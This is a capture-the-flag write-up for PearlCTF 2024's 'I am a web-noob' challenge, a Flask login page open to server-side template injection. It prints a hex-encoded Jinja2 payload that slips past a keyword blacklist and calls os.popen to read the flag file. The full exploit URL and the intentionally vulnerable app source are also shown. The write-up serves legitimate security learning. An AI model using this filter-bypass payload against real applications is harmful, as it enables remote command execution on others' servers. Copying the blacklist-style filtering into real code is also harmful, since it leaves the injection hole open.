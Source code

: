 # PearlCTF 2024

## I am a web-noob

> Maybe noobs create the most secure web applications. Or maybe not.
>
>  Author: s4ych33se!
>

Tags: _web_

## Solution
For this challenge, we get a small web application where we can enter a username and login. The username is passed as parameter `?user=username` and the page then displays `Basic <the username>`...

This looks a bit like `SSTI`. Trying out some of the typical payloads doesnt give good results, but an interesting message `{% set config=None%}{% set self=None%} 5*5}}`. Looks like our opening braces where removed: `{{`, so we have some sort of filter but we can be pretty confident this is a `SSTI` challenge.

After a while I found a construct like this is not filtered:

```bash
{%with a="Hello World"%}
{%print(a)%}
{%endwith}
```

As this prints `Basic Hello World`, we can start from here carefully crafting a payload that doesn't violate the filter. In the end this was what worked:

```bash
{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f")("\x6f\x73")|attr("\x70\x6f\x70\x65\x6e")("\x63\x61\x74\x24\x7b\x49\x46\x53\x7d\x66\x6c\x61\x67\x2e\x74\x78\x74")|attr("read")()%}
{%print(a)%}
{%endwith%}
```

Since many of the keywords are filtered, this needed to be bypassed with specifying the hex values of the characters. A bit better readable the payload (but this is filtered) would look like this:

```bash
{%with a=request|attr("application")|attr("__globals__")|attr(__getitem__)(__builtins__)|attr__getitem__)(__import__)("os")|attr("popen")("cat${IFS}flag.txt")|attr("read")()%}
{%print(a)%}
{%endwith%}
```

Passing this to the parameter gives us the flag.

```bash
https://noob-login.ctf.pearlctf.in/?user={%with%20a=request|attr(%22application%22)|attr(%22\x5f\x5fglobals\x5f\x5f%22)|attr(%22\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f%22)(%22\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f%22)|attr(%22\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f%22)(%22\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f%22)(%22\x6f\x73%22)|attr(%22\x70\x6f\x70\x65\x6e%22)(%22\x63\x61\x74\x24\x7b\x49\x46\x53\x7d\x66\x6c\x61\x67\x2e\x74\x78\x74%22)|attr(%22read%22)()%}{%print(a)%}{%endwith%}
```

As we have shell now, we also can grab a copy of the application code, just to see what we navigated around the whole time:

```javascript
#!/usr/bin/env python3

from flask import Flask, render_template_string, request
import os

app = Flask(__name__)
blacklist = ['import','getattr', 'class', 'os','subclasses','mro','eval','if',' subprocess','file','open','popen','builtins','compile','execfile','from_pyfile','config','local','self','item','getitem','getattribute','func_globals', 'init', '{{', '}}', ":", ";", '-', "_", "[", "]", "join"]


@app.route("/")
def home():
    user = request.args.get('user') or None

    template = '''
    <html><head><title>Get The Flag</title><style>body {margin: 90px;}</style></head><body>
    '''
    if user == None:
        template = template + '''
        <h1>Login Form</h1>
        <form>
        <input name="user" style="border: 2px solid #C21010; padding: 10px; border-radius: 10px; margin-bottom: 25px;" value="Username"><br>
        <input type="submit" value="Log In" style="border: 0px; padding: 5px 20px ; color: #C21010;">
        </form>
        '''.format(user)
    else:
        for no in blacklist:
            if no in user:
                user = user.replace(no, ' ').lower()
            else:
                continue
            a =  ['config', 'self']
            return ''.join(['{{% set {}=None%}}'.format(c) for c in a]) + user

        template = template + '''
        <h1>Basic {}</h1>
        Blah blah blah<br>
        '''.format(user)

    return render_template_string(template)

if __name__ == "__main__":
    app.run(debug=False, host='0.0.0.0', port=9000)
```

Flag `pearl{W4s_my_p4ge_s3cur3_en0ugh_f0r_y0u?}`
